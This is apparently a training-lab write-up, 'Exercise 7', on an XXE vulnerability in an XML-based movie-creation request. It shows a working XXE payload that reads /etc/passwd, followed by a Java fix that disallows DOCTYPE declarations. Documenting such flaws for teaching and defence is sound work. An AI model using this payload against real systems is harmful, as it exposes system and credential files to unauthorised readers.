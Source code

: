 # Exercise 7
The method to create a movie by passing an xml payload as a string parameter of the http request is vulnerable to xxe.
It allows us to pass a xml document that references a external entity and put its content in the movie we create. Since the request returns us the movie data, we can use this exploit to retrieve any data from the remote system or to which the remote system has access.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE createMovie [  
   <!ELEMENT createMovie ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd">
   ]>
<createMovie>
	<title>Star Wars: The empire strikes back</title>
	<description>&xxe;</description>
	<genre>sci-fi</genre>
</createMovie>
```
The above payload retuens us the content of the /etc/passwd file that contains all the users from the remote system.

## Fix
Disable the option for the document builder to pass it a custom DTD.
```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```
